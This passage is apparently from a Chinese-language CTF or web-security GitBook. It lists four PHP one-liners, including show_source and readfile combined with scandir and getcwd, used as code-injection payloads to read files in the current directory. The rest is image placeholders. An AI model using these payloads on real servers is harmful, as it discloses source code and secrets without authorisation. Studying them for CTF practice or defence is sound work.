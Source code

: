 <figure><img src="../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

#### <mark style="color:red;background-color:orange;">（2)读取当前目录下文件内容</mark>

```php
show_source(end(scandir(getcwd())));
highlight_file(end(scandir(getcwd())));
readfile(end(scandir(getcwd())));
file_get_contents(end(scandir(getcwd())));
```

<figure><img src="../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>
